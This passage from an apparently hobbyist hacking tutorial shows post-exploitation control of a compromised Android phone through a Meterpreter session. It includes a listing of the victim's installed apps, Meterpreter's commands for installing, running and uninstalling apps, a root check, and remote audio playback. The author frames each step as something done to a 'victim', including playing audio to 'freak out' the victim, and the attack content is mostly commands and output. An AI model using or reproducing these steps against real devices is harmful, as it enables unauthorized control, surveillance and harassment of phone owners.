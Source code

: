 ```
  AASAservice                                                           com.samsung.aasaservice                                               false    true
  AR Doodle                                                             com.samsung.android.ardrawing                                         false    true
  AR Emoji                                                              com.samsung.android.aremoji                                           false    true
  AR Emoji Editor                                                       com.samsung.android.aremojieditor                                     false    true
  AR Emoji Stickers                                                     com.sec.android.mimage.avatarstickers                                 false    true
  AR Zone                                                               com.samsung.android.arzone                                            false    true
  Accessibility                                                         com.samsung.accessibility                                             false    true
  Adapt Sound                                                           com.sec.hearingadjust                                                 false    true
  Amazon Alexa                                                          com.amazon.dee.app                                                    false    false
  Amazon Music                                                          com.amazon.mp3                                                        false    false
  Amazon Shopping                                                       com.amazon.mShop.android.shopping                                     false    false
```
This screen will allow us to easily see what programs (apks) our victim currently has installed on their device.  
We can type "help" and get a full list of actions we can take;  
```
meterpreter > help  
Application Controller Commands
===============================

    Command        Description
    -------        -----------
    app_install    Request to install apk file
    app_list       List installed apps in the device
    app_run        Start Main Activty for package name
    app_uninstall  Request to uninstall application

```
I copied the contents of the Application Controller commands as I still want to play with this!  
As we can see, we can easily install, run, or uninstall Applications on our target!  
  
We can check to see if our target is rooted. This would be a crucial step to know if you are planning on installing  
APK's that require the device to be rooted;  
```
meterpreter > check_root
[*] Device is not rooted
```
Want to really freak out your victim? We can even play audio files remotely like this;  
```
meterpreter > play /path/to/audio_file.mp3  
[*] Playing /home/cryptoh4ck3r/Downloads/live-hip-hop-loop-81bpm-131102.mp3...
[*] Done
```
  